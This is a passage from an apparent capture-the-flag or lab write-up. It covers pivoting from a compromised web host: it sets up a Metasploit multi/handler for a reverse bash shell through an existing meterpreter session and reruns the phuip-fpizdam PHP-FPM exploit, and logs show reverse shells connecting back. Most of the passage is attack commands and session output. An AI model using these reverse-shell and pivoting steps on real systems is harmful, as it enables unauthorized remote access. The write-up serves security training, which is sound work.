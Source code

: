 Since this machine cannot directly reach us we have to set up a listener on the already compromised machine. As we already have a meterpreter running there, we can simply setup our listener via this meterpreter. We select the `cmd/unix/reverse_bash` payload which is the counterpart to the `/dev/tcp/` payload.

```
msf6 post(multi/manage/autoroute) > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload payload/cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/handler) > set lhost 192.168.254.2
lhost => 192.168.254.2
msf6 exploit(multi/handler) > set lport 7575
lport => 7575
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

msf6 exploit(multi/handler) > [*] Started reverse TCP handler on 192.168.254.2:7575 via the meterpreter on session 2
```

We might have to run `phuip-fpizdam` again since there is a cleanup script going. After this results in a sucess we can send our reverse shell from repeater by just spamming the send button until it hangs.

[![revshell_pki](/img/static/revshell_pki.png)](/img/static/revshell_pki.png)

Some of the command shell sessions might arrive invald as seen below but repeating the exploit it should lead to success soon and another stable session should be opened.

```
msf6 exploit(multi/handler) >
[-] Command shell session 3 is not valid and will be closed
[*] ::ffff:192.168.254.3 - Command shell session 3 closed.
[-] Command shell session 4 is not valid and will be closed
[*] ::ffff:192.168.254.3 - Command shell session 4 closed.

msf6 exploit(multi/handler) >
[-] Command shell session 5 is not valid and will be closed

msf6 exploit(multi/handler) > [*] ::ffff:192.168.254.3 - Command shell session 5 closed.

msf6 exploit(multi/handler) > [*] Command shell session 6 opened (::ffff:192.168.254.2:7575 -> ::ffff:192.168.254.3:37774) at 2021-06-20 09:05:45 +0000

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                      Connection
  --  ----  ----                   -----------                                                      ----------
  1         meterpreter php/linux  www-data (33) @ web                                              172.30.0.8:4444 -> 172.30.0.1:48412 (172.20.0.10)
  2         meterpreter x64/linux  www-data @ web (uid=33, gid=33, euid=33, egid=33) @ 172.20.0.10  172.30.0.8:7575 -> 172.30.0.1:60536 (172.30.0.1)
```